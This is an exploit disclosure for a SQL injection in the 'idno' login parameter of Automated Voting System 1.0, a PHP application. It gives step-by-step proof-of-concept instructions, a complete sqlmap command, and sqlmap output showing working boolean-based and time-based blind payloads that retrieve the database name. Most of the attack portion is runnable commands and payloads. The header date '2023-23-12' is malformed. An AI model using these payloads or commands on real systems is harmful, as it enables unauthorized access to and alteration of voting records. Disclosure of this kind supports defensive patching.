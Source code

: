 # Automated_Voting_System-SQL_Injection-2
+ **Exploit Title:** Automated_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'idno' in "/automated%20voting/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voter panel: "http://localhost/automated%20voting/"
+ Fill the voter id and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'idno' parameter to dump the database. 
```
sqlmap -r r.txt -p idno --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART idno ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

-4883' OR 7870=7870-- eCXU
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

11111' AND (SELECT 7894 FROM (SELECT(SLEEP(5)))TcOW)-- MvbQ
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--
---
[19:31:16] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/vote.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:31:17] [INFO] confirming MySQL
[19:31:18] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:31:18] [INFO] fetching current database
[19:31:18] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![02](https://github.com/h4md153v63n/CVEs/assets/5091265/abe5fcf0-759b-470b-866c-6a546f8fb824)
